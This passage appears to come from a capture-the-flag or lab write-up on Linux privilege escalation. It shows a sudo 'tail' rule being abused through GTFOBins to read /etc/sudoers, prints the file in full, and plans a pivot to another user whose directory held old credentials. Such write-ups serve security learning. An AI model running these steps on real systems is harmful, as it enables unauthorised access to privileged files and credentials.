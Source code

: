 $~$

### $\color{magenta}{PRIVILEGE\ ESCALATION}$
We need to see if we have any real access to be able to do anything.
```
c199999@velocity9-bastion:~$ sudo -l
Matching Defaults entries for c199999 on velocity9-bastion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User c199999 may run the following commands on velocity9-bastion:
    (ALL) PASSWD: /bin/tail, /bin/ls
c199999@velocity9-bastion:~$ 
```
Doesn't look like we have much access, we need to elevate our privileges somehow.\
A quick `sudo -l` tells us we can run `tail` & `ls` commands elevated, so let's check out <a href="https://gtfobins.github.io/">GTFOBins</a> for any possible escalation routes.

Running the GTFOBins suggested command for `tail` we are able to read the `sudoers` file.
```
c199999@velocity9-bastion:~$ sudo tail -c1G /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults	env_reset
Defaults	mail_badpass
Defaults	secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root	ALL=(ALL:ALL) ALL

# Allow members of group sudo to execute any command
%sudo	ALL=(ALL:ALL) ALL
x155796 ALL=(ALL) PASSWD: /bin/find, /bin/ls, /bin/cat, /bin/tree, /bin/tail
x158049 ALL=(ALL) PASSWD: /bin/find, /bin/ls, /bin/cat, /bin/tree, /bin/tail
x128489 ALL=(ALL) PASSWD: /bin/find, /bin/ls, /bin/cat, /bin/tree, /bin/tail
c199999 ALL=(ALL) PASSWD: /bin/tail, /bin/ls
x195184 ALL = NOPASSWD: /bin/find
# See sudoers(5) for more information on "@include" directives:

@includedir /etc/sudoers.d
c199999@velocity9-bastion:~$
```
A possible of point horizontal privilege escalation is via x195184, remember it was this user that had the `old_creds` file in their home directory.\
No harm is trying...
